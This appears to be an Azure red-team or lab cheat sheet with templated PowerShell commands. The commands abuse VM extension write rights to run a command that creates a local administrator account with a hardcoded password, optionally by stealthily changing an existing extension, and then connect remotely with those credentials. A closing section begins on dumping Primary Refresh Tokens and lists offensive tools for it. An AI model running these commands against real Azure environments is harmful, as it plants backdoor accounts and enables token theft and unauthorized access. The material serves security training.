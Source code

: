 Expected output will be:

```
{Microsoft.Compute/virtualMachines/extensions/write, Microsoft.Compute/virtualMachines/extensions/read} {}
```

We can query if a vm has extensions

```powershell
Get-AzVMExtension -ResourceGroupName "{{ ResourceGroup resourcegroup }}" -VMName "{{ VMName vmname }}"
```

We can create a new extension or perhaps modify the command of another extension to be more stealthy

```powershell
# Change extension command with a new one
Set-AzVMExtension -ResourceGroupName "{{ ResourceGroup resourcegroup }}" -ExtensionName "{{ ExtensionName ExecCmd}}" -VMName "{{ VMName vmname }}" -Location "{{ Location Germany West Central }}" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"{{ Command powershell net users student4 Stud4Password@123 /add /Y; net localgroup administrators student4 /add }}"}'
```

We can then connect to the machine (maybe using a jumpvm)

```powershell
$password = ConvertTo-SecureString 'Stud4Password@123' -AsPlainText -Force
# .\student4 is a local user
$creds = New-Object System.Management.Automation.PSCredential('.\student4', $password)
$infradminsrv = New-PSSession -ComputerName {{ IP ip }} -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)

# We cannot enter another session from one powershell session
# Enter-PSSession -Session $infradminsrv
Invoke-Command -Session $infradminsrv -ScriptBlock{hostname}

# Check that it was joined to azuread
Invoke-Command -Session $infradminsrv -ScriptBlock{dsregcmd /status}
```

## Pass the PRT (Primary Refresh Token)

PRT is a special refresh token used for single sign-on that can be used to obtain access and refresh tokens to any appplication; is issued to a user for a specific device and is valid for 90 days and continuously renewed.

To dump the PRT for an user session in a azure joined vm we need a set of tools:

1. **ROADToken.exe** (from [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken)) - Obtains a PRT token/cookie
2. **PsExec64.exe** (from [Sysinternals](https://live.sysinternals.com)) - Allows executing commannds remotely in another machine (useful due to powershell invoke-command limitations that do not allow interactive sessions to be nested)
3. **SessionExecCommand.exe** (from [KevinJClark/csharptoolbox](https://gitlab.com/KevinJClark/csharptoolbox)]) - Useful in executing process as other users
